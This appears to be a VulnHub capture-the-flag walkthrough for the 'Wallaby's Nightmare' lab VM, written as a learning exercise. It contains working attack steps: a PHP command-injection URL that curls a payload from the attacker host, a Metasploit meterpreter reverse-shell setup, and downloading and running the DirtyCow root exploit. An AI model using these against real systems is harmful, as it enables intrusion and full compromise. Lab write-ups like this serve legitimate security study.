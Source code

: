 # 🧠 Wallaby's Nightmare – VulnHub CTF Walkthrough

**Author:** Shah Zaman  
**Platform:** VulnHub  
**Difficulty:** Intermediate  
**Target IP:** 10.0.2.4  
**Attacker Machine:** Kali Linux  
**Objective:** Exploit command injection, gain root, capture the flag  
**Tools Used:** Netdiscover, Nmap, Nikto, Dirb, Metasploit, Python, GCC

---

## 📌 Table of Contents

1. [Reconnaissance](#1-reconnaissance)
2. [Scanning & Enumeration](#2-scanning--enumeration)
3. [Vulnerability Discovery](#3-vulnerability-discovery)
4. [Exploitation (Command Injection)](#4-exploitation-command-injection)
5. [Post-Exploitation & Privilege Escalation](#5-post-exploitation--privilege-escalation)
6. [Flag Capture](#6-flag-capture)
7. [Summary & Lessons Learned](#7-summary--lessons-learned)
8. [References](#references)

---

## 1. 🔍 Reconnaissance

### 🔹 Discover Target IP using Netdiscover
```bash
netdiscover -r 10.0.2.0/24
```
**Output:**
10.0.2.4     08:00:27:c3:33:5c     1     60   (Wallaby's Nightmare)

---

## 2. 🧪 Scanning & Enumeration

### 🔹 Basic Nmap Scan

```bash
nmap -sS -T4 -p- 10.0.2.4
```

**Output:**
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http

### 🔹 Service Version Detection
```bash
nmap -sC -sV -A -oN nmap.txt 10.0.2.4
```
**Output:**
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1
80/tcp open  http    Apache/2.4.7 (Ubuntu)

---

## 3. 🔍 Vulnerability Discovery
### 🔹 Web Directory Scan with Dirb
```bash
dirb http://10.0.2.4
```
**Output:**
---- Scanning URL: http://10.0.2.4/ ----
==> Found: /mailer/

### 🔹 Check /mailer Page for Parameters
_Manually Visit:_
http://10.0.2.4/?page=mailer&mail=php
Suspicious parameter usage → Possible Command Injection.

---

## 4. 💥 Exploitation (Command Injection)

### 🔹 Use Metasploit’s web_delivery Module

```bash
msfconsole
use exploit/multi/script/web_delivery
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your-kali-ip>
set SRVPORT 8080
exploit
```

**Metasploit Output:**
[*] Server started.
[*] PHP payload command ready to be injected.

### 🔹 Inject Payload via URL

_Go to browser:_
http://10.0.2.4/?page=mailer&mail=<?php system('curl http://<kali_ip>:8080/script'); ?>

💡 Or run in terminal using curl or wget.
✅ Meterpreter session opens!

---

## 5. 🔐 Post-Exploitation & Privilege Escalation
### 🔹 Upgrade to a Bash Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
### 🔹 Confirm Current User
```bash
whoami
```
**Output:**
www-data

### 🔹 Try Privilege Escalation via DirtyCow (cowroot)

_🔹 Download Exploit_
```bash
wget https://github.com/FireFart/dirtycow/raw/master/cowroot.c
```
_Compile and Run_
```bash
gcc cowroot.c -o cowroot
chmod +x cowroot
./cowroot
```

✅ Gained root shell!

---

## 6. 🏁 Flag Capture

### 🔹 View Root Files
```bash
cd /root
ls
cat flag.txt
```

_🎉 Root access achieved and flag captured!_

---
## 7. 📚 Summary & Lessons Learned
* Discovered command injection vulnerability in /mailer
* Used Metasploit web_delivery to deliver PHP Meterpreter payload
* Successfully exploited with reverse shell
* Privilege escalated using DirtyCow kernel vulnerability
* Completed full system compromise

---

## 🔗 References

- [Hacking Articles – Wallaby’s Nightmare Walkthrough](https://www.hackingarticles.in/hack-nightmare-vm-ctf-challenge/)
- [Abatchy’s VulnHub Walkthrough](https://www.abatchy.com/2017/01/wallabys-nightmare-walkthrough-vulnhub)
- [YouTube – Full Video Walkthrough](https://youtu.be/eNcUzBwR2wM?si=tMROByH3kPVrvgpZ)

---

> 🛡️ This walkthrough is part of my hands-on cybersecurity learning journey. Feedback is always welcome!
